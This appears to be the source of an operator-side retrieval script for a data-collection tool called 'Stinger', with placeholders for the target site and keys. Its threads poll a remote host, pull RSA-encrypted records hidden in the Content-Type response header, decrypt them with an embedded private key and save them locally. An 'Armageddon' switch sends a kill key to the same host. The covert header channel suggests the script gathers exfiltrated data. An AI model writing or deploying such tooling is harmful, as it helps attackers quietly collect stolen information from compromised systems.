 # Libraries
import requests, argparse, rsa, threading
from rsa import PrivateKey
# Initialization
parser = argparse.ArgumentParser()
parser.add_argument("-sp", "--stingerPath", help="File Path", required=False, default="output.txt")
parser.add_argument("-sa", "--stingerArmageddon" ,help="Armageddon (True/False)", required=False, default="FALSE")
parser.add_argument("-sv", "--stingerVerbose", help="Verbose (True/False)", required=False, default="TRUE")
parser.add_argument("-st", "--stingerThreads", help="Threads", required=False, type=int, default=4)
# Read arguments from command line
args = parser.parse_args()
# Header
headers = {
    "Accept": "{{getKey}}",
}
# Starting Point
start = {{tableBegin}}
# Private key
privateKey = {{privateKey}}
# Threading Lock
lock = threading.Lock()

try:
    # Armageddon
    if(args.stingerArmageddon.upper() == "TRUE"):
        request = requests.get("{{website}}",params={"ARMAGEDDON":"{{armageddonKey}}"},headers=headers)
        if(request.status_code == 200):
            print("Armageddon Successful")
            exit(0)
    
    # Retriving data
    def runStinger():
        global start
        while True:
            lock.acquire()
            request = requests.get("{{website}}",params={"{{tableID}}":start},headers=headers)
            if(request.status_code == 200 and str(request.headers.get("Content-Type")) != "None"):
                requestData = bytearray(bytes.fromhex(request.headers.get("Content-Type")))
                requestData = rsa.decrypt(requestData, privateKey).decode() + "\n"
                # Writing data to file
                file = open(args.stingerPath, "a")
                file.write(requestData)
                if(args.stingerVerbose.upper() == "TRUE"):
                    print("Data : " + requestData)
                start = start + 1
            else:
                if(request.status_code != 200 and args.stingerVerbose.upper() == "TRUE"):
                    print("Request Error")
                elif(args.stingerVerbose.upper() == "TRUE"):
                    print("No Data")
            lock.release()
    
    # Threading
    def runStingerThreads():
        for i in range(args.stingerThreads):
            thread = threading.Thread(target=runStinger)
            thread.start()
    
    # Run threads
    runStingerThreads()

except Exception as e:
    print("Error : " + str(e))
    exit(1)